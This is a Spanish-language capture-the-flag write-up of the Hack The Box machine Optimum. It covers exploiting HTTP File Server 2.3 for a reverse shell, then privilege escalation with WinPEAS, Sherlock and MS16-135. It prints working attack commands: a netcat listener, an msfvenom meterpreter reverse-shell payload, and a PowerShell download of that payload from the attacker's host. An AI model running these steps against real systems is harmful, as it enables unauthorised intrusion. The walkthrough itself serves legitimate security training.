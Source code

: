 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
description: Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.
![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-right style="width: 25%;"}
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 75%;"}

Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

<br>
**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<br>
**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo <a href="https://www.exploit-db.com/exploits/49584">CVE-2014-6287</a>

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

<br>
**Escalada de privilegios**

Para comenzar a enumerar posibles vectores de escalada de privilegios hemos ejecutado la herramienta <a href="https://github.com/peass-ng/PEASS-ng">WinPEAS</a>. Tras ejecutar la herramienta apreciamos información interesante como por ejemplo la credencial en texto plano del usuario kostas.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/user.png){: .align-center}

Algo de lo que deberíamos de darnos cuenta es de que la herramienta Watson no muestra ninguna salida al ejecutar WinPEAS.

Esto se debe a que la versión .NET del host no permite el uso de Watson (se necesita como mínimo la versión 4.5). Para comprobarlo podemos consultar los directorios de la siguiente ruta:

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/net.png){: .align-center}

Lo que debemos de hacer en casos como este es recurrir a su predecesor <a href="https://github.com/rasta-mouse/Sherlock">Sherlock</a>

En mi caso me econtre un error ya que la shell que nos ha propocionado el exploit de HttpFileServer no es lo suficientemente estable. Como bypass de este problema podemos generar una shell meterpreter desde nuestra máquina atacante.
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.14.10 LPORT=443 -f exe -o met.exe
```

Para compartir la shell podemos ejecutar un servidor http con python
```
python3 -m http.server 80
```

Aprovechando la shell PS que ya tenemos descargamos el payload del siguiente modo
```
iwr -uri http://10.10.14.10/met.exe -outfile met.exe
```

Por parte de nuestra máquina atacante a la escucha deberemos de utilizar el multi/handler de msfconsole y definir los siguientes parámetros.
```
set lhost <IP de nuestra máquina atacante>

set lport <puerto a la escucha de nuestra máquina atacante>

set payload windows/x64/meterpreter_reverse_https
```

Tras esto obtendremos una shell estable desde la cual podremos ejecutar la herramienta Sherlock. 

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/Sherlock.png){: .align-center}

Para explotar las vulnerabilidades encontradas he decidido utilizar el exploit MS16-135.
![image-left](https://haoxgit.github.io/haox/assets/images/optimum/exploit.png){: .align-center}

